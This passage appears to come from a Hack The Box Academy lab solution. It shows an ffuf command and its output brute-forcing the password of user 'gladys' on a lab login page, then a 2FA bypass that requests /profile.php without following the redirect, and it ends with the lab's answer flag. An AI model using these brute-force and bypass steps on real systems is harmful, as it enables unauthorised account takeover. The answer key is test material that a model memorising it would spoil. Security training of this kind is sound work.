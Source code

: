 ```shell
gladys                  [Status: 200, Size: 4344, Words: 680, Lines: 91, Duration: 17ms]
[WARN] Caught keyboard interrupt (Ctrl-C)
```

Subsequently, students need to use `ffuf` to brute-force the password of the user `gladys` (making use of the modified `rockyou.txt` wordlist), finding it to be `dWinaldasD13`:

```shell
ffuf -w rockyouTrimmed.txt -u http://STMIP:STMPO/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=gladys&password=FUZZ" -fr "Invalid credentials." -t 60
```
```
┌─[eu-academy-5]─[10.10.14.233]─[htb-ac-413848@htb-evly17edjb]─[~]
└──╼ [★]$ ffuf -w rockyouTrimmed.txt -u http://94.237.63.201:51492/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=gladys&password=FUZZ" -fr "Invalid credentials." -t 60

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0
________________________________________________

 :: Method           : POST
 :: URL              : http://94.237.63.201:51492/login.php
 :: Wordlist         : FUZZ: /home/htb-ac-413848/rockyouTrimmed.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=gladys&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 60
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Invalid credentials.
________________________________________________

dWinaldasD13            [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 97ms]
```

Students then need to sign in using the credentials `gladys:dWinaldasD13`:

![[HTB Solutions/CBBH/z. images/5cc89ce95e820521f4ad526f1bf00096_MD5.jpg]]

The web application prompts for a 2FA OTP before completing the sign-in process:

![[HTB Solutions/CBBH/z. images/5a2abb69347f9ad8b2c62c029287804a_MD5.jpg]]

The OTP cannot be brute-forced. However, students need to intercept the request to `/2fa.php`, change the endpoint to `/profile.php`, and not follow the redirection to `/2fa.php`. Although the server returns a 302 status code, the content of `/profile.php` belonging to `gladys`, an administrator user, is leaked:

![[HTB Solutions/CBBH/z. images/c88fd3918ae155985810323f3460e0b0_MD5.jpg]]

Students will obtain the flag by checking the `Render` tab of the `Response` panel (or finding it on line 72).

Answer: `HTB{d86115e037388d0fa29280b737fd9171}`